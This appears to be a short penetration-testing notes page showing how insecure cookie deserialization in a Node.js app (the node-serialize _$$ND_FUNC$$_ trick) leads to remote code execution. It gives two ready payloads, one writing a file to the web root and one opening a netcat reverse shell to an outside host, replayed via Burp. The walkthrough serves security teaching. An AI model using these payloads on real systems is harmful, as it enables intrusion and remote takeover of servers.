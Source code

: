 # NodeJS

## NodeJS cookie deserializarion

Here, the cookie is encoded and use a serialization function on the server side.

![](../../../.gitbook/assets/96dc9ccb66ca4e4b8fa61def714114d2.png)

* The source code reveals that the eval\(\) function is used with allow to execute raw javascript.

![](../../../.gitbook/assets/d60ee3f1d7aa42c78a6496f58bd30e56.png)

Using the Immediately invoked function express \(IFFE ----- say iffy\) we are able to remote code execution on the server [https://en.wikipedia.org/wiki/Immediately-invoked\_function\_expression](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression)

```text
{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('echo nyws is cool > /opt/web/chatSupportSystems/public/nyws.txt', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

```text
{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.4.3 8888 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

* encode in base64 and replayed using burp leads to RCE and thus revershe shell :

![](../../../.gitbook/assets/68844d0525de4dc197078ab6ace1633a.png)

![](../../../.gitbook/assets/69cc1ff8423e433ba250909478160783.png)

